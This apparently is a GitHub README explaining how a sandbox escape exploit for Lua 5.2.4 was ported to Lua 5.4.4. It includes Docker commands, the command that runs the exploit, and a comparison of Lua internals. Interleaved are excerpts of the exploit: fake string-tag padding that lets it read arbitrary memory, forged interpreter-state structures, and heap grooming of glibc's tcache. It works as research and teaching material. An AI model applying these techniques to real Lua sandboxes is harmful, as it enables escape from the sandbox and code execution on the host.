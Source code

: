 # lua-5.4.4-sandbox-escape

It is an exploit and Docker created by applying the sandbox escape exploit code that existed in the previous version 5.2.4 to version 5.4.4.


## Create docker image

```sh
docker build --tag lua-5.4.4-escape/x64:latest x64
```
## How to run

```sh
docker run -it lua-5.4.4-escape/x64:latest /bin/bash
```

## Exploit

```sh
/LUA/lua/lua /LUA/exploit.lua
```



## What has changed from version 5.2.4 sandbox escaping exploit code?

- TString

    `v5.2.4 Lua TString`
    ```c++
    /*
    ** Header for string value; string bytes follow the end of this structure
    */
    typedef union TString {
      L_Umaxalign dummy;  /* ensures maximum alignment for strings */
      struct {
        CommonHeader;
        lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
        unsigned int hash;
        size_t len;  /* number of characters in string */
      } tsv;
    } TString;
    ```


    `v5.4.4 Lua TString`
    ```c++
    /*
    ** Header for a string value.
    */
    typedef struct TString {
      CommonHeader;
      lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
      lu_byte shrlen;  /* length for short strings */
      unsigned int hash;
      union {
        size_t lnglen;  /* length for long strings */
        struct TString *hnext;  /* linked list for hash table */
      } u;
      char contents[1];
    } TString;
    ```

    Moving from 5.2.4 to 5.4.4, you can see that the variable handling the length of TString is managed by dividing it into shrlen and lnglen.

- OP_LEN code

    `v5.2.4 Lua OP_LEN code`
    ```c++

    void luaV_execute (lua_State *L) {
    /*skipped*/
    vmcase(OP_LEN,
            Protect(luaV_objlen(L, ra, RB(i)));
          )
    /*skipped*/
    }


    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypenv(rb)) {
    /*skipped*/
        case LUA_TSTRING: {
          setnvalue(ra, cast_num(tsvalue(rb)->len));
          return;
        }
    /*skipped*/
    
      }
      callTM(L, tm, rb, rb, ra, 1);
    }
    
    #define LUA_TSTRING     4
    
    
    ```


    `v5.4.4 Lua OP_LEN code`
    ```c++
    void luaV_execute (lua_State *L, CallInfo *ci) {
    /*skipped*/
        vmcase(OP_LEN) {
                Protect(luaV_objlen(L, ra, vRB(i)));
                vmbreak;
              }
    /*skipped*/
    }
    
    /*
    ** Main operation 'ra = #rb'.
    */
    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypetag(rb)) {
    /*skipped*/
        case LUA_VSHRSTR: {
          setivalue(s2v(ra), tsvalue(rb)->shrlen);
          return;
        }
        case LUA_VLNGSTR: {
          setivalue(s2v(ra), tsvalue(rb)->u.lnglen);
          return;
        }
    /*skipped*/
    
      }
      luaT_callTMres(L, tm, rb, rb, ra);
    }
    
    /* Variant tags for strings */
    #define LUA_TSTRING     4
    #define LUA_VSHRSTR makevariant(LUA_TSTRING, 0)  /* short strings */
    #define LUA_VLNGSTR makevariant(LUA_TSTRING, 1)  /* long strings */
    ```
    
    As the length of TString is treated as shrlen and lnglen, the behavior of OP_LEN for strings has also changed, so tag must be set to LUA_VLNGSTR.
    
    
    ```lua
    local function readAddr(addr)
        collectgarbage()
    -- skipped
        local _addr = numTo64L(addr - 16)
        local padding_a = string.rep('\65', 8) -- 0x41 padding
        local padding_b = string.rep('\20', 15) -- LUA_VLNGSTR tag padding
    -- skipped
    
    ```



- Addition OP_LOADI code

    Looking at the foo function that exists in the existing code, an integer value is put into the a variable. In version 5.2.4, the LOADK command is used to do this. However, since version 5.4.4 uses the LOADI command to handle integer assignment, it was possible to induce the use of the LOADK command by changing the integer assignment to a string assignment.
    
    `v5.2.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a=1 a=2 a=3
        return (#a)
    end
    ```
    
    
    `v5.4.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a="a" a="b" a="c" 
        return (#a)
    end
    ```

- Changing size of global_State, lua_State structure

    When running the existing exploit, to create fake global_State and fake lua_State, a string is created as much as the size of the structure. At this time, the size of the structure changes and this is reflected.
    
    ```lua
        local l_G_addr = readAddr(readAddr(t_addr) + 0x18)
    
        l_G = memcpy(l_G_addr, 1416) -- sizeof(global_State)=1416
        l_G = numTo64L(addr) .. numTo64L(arg) .. l_G:sub(17)
        l_G_addr = bufferAddress(l_G)
    
    
        local t_buffer = memcpy(t_addr, 200) -- sizeof(lua_State)=200
    ```


- Cleaning tcache bins (Ubuntu glibc ptmalloc)

    In the luaM_newvectorchekced function, the malloc function is called and the chunk of variable k is allocated. At this time, if the tcache bin is full, the desired chunk is not allocated and the exploit fails. Because of this, we allocate a variable and empty the chunk that exists in the tcache bin.
    
    ```lua
        -- clean tcache bins
    
        local t1 = {}
        local t2 = {}
        local t3 = {}
        local t4 = {}
        local t5 = {}
        local t6 = {}
        local t7 = {}
    
    
        local intermid = {}
    
        collectgarbage()
        intermid = nil
        k=nil
        collectgarbage()
    
        g, err = load(g)
        g() 
    ```





## Reference

[https://github.com/erezto/lua-sandbox-escape](https://github.com/erezto/lua-sandbox-escape)


